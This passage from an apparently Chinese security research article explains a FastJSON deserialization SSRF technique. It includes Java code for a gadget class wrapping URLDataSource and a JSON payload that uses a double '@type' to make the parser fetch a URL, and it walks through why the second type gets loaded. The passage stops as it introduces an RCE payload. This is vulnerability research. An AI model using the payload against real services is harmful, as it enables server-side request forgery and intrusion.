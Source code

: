 ```
package org.heptagram.fastjson;

import javax.activation.DataSource;
import javax.activation.URLDataSource;
import java.net.URL;

public class RefSSRF extends Exception {

    public RefSSRF() {
    }
    private DataSource dataSource;

    public DataSource getDataSource() {
        return dataSource;
    }
    public void setDataSource(URL url) {
        this.dataSource = new URLDataSource(url);
    }
}


```

执行载荷：

```
package org.heptagram.fastjson;

import com.alibaba.fastjson.JSON;

public class RefSSRFMain {
    public static void main(String[] args) {
        String a ="{\n" +
                "  \"@type\": \"java.lang.Exception\",\n" +
                "  \"@type\": \"org.heptagram.fastjson.RefSSRF\",\n" +
                "  \"dataSource\": {\n" +
                "    \"@type\": \"java.net.URL\",\n" +
                "    \"val\": \"http://127.0.0.1:4444/Exploit\"\n" +
                "  }\n" +
                "}";
        JSON.parseObject(a);
    }
}


```

执行之后可以看到有请求过来：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422113420-9f8c235a-a31b-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210422113420-9f8c235a-a31b-1.jpg)  
这里我们对原理做一个简单的介绍：  
可以看到载荷中一共传入了两个 @type，其中第一个为 java.lang.Exception，它是 Throwable 的继承类，而用于反序列化 Throwable 异常类的是 ThrowableDeserializer，所以又进入到了之前的 execeptClass 部分，之后根据根据第二个 @type 的值来获取具体类，并且根据传入的指定期望类进行加载：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422113504-ba11a5a6-a31b-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210422113504-ba11a5a6-a31b-1.jpg)  
之后在 RefSSRF 中将第二个 @type 的数值作为参数传入，同时注意到这里的 setDataSource 的参数是 URL 类型，在 FastJSON 中 URL 类型允许被反序列化，也就是说可以调用到 setDataSource 方法，并且实例化一个 URLDataSource 对象：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422113540-cf745f56-a31b-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422113540-cf745f56-a31b-1.png)  
如果我们要实现 SSRF 那么我们可以通过调用 URLDataSource 的 getInputStream() 方法来触发连接请求，而使用 JSON.parseObject 在解析 JSON 时默认就会调用 getInstance()(在 setXXX 之后调用)，从而实现 SSRF:  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422113556-d90062a4-a31b-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422113556-d90062a4-a31b-1.png)  
通过 $ref 引用功能，我们可以触发大部分 getter 方法，理论上当存在危险的 method 方法时我们可以通过此种方法在不开启 AutoType 的情况下来实现 RCE，下面以 threedr3am 师傅提供的 payload 为例 (代码部分取自 Y4er 师傅)：